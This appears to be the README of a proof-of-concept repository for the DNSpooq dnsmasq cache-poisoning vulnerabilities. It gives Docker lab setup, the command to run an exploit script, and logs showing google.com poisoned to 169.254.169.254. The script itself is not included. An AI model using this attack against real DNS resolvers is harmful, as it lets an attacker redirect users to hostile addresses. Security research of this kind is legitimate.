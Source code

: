 # dnspooq
DNSpooq PoC - dnsmasq cache poisoning (CVE-2020-25686, CVE-2020-25684, CVE-2020-25685)

For educational purposes only



## Requirements
- Docker compose
- Docker

## Exploit

![dnspooq](imgs/dnspooq.png)

### Launch containers

```
$ docker-compose up -d
```

### Run exploit.py

```
$ docker-compose exec attacker bash
bash-5.0# python exploit.py
Querying non-cached names...
Generating spoofed packets...
Poisoned: b'google.com.' => 169.254.169.254
sent 3032017 responses in 50.309 seconds
```

### View output from forwarder container

```
$ docker-compose logs -f forwarder
...
forwarder_1  | dnsmasq[1]: query[A] example.com from 10.10.0.3
forwarder_1  | dnsmasq[1]: forwarded example.com to 10.10.0.4
forwarder_1  | dnsmasq[1]: cached example.com is <CNAME>
forwarder_1  | dnsmasq[1]: cached google.com is 169.254.169.254
```

### View output from cache container

```
$ docker-compose logs -f cache
Attaching to dnspooq_cache_1
cache_1      | Sniffing...
cache_1      | Source port: 46816, TXID: 16476, Query: b'example.com.'
cache_1      | Source port: 16718, TXID: 54280, Query: b'example.com.'
...
cache_1      | Source port: 46816, TXID: 56240, Query: b'example.com.'
cache_1      | Source port: 46816, TXID: 24160, Query: b'example.com.'
cache_1      | Source port: 46816, TXID: 18189, Query: b'example.com.'
cache_1      | Source port: 46816, TXID: 40361, Query: b'example.com.'
cache_1      | Source port: 46816, TXID: 13100, Query: b'example.com.'
cache_1      | Source port: 46816, TXID: 47303, Query: b'example.com.'
```

## Reference
- https://www.jsof-tech.com/disclosures/dnspooq/
- https://www.jsof-tech.com/wp-content/uploads/2021/01/DNSpooq-Technical-WP.pdf

## Author
Teppei Fukuda
